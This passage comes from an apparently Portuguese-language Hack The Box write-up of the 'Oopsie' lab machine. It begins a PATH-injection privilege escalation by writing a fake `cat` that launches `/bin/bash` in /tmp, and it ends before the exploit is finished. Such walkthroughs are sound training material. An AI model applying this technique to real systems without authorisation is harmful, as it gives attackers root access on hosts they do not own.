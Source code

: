 <img src="/htb/htb-oopsie-23.png">

Percebemos que em determinado momento, o binário usa a função `cat` do SO em algum arquivo, o que nos dá a oportunidade de tentar `PATH INJECTION`.

## Escalação de privilégios

Primeiro vamos criar um arquivo `cat` no diretório `/tmp` contendo o comando `/bin/bash`.

```
robert@oopsie:/tmp$ echo '/bin/bash' > cat
echo '/bin/bash' > cat
robert@oopsie:/tmp$ ls -la
ls -la
total 12
drwxrwxrwt  2 root     root     4096 Sep  5 22:49 .
drwxr-xr-x 24 root     root     4096 Jan 27  2020 ..
-rwxrwxrwx  1 robert   robert   10 Sep  5 22:49 cat

```
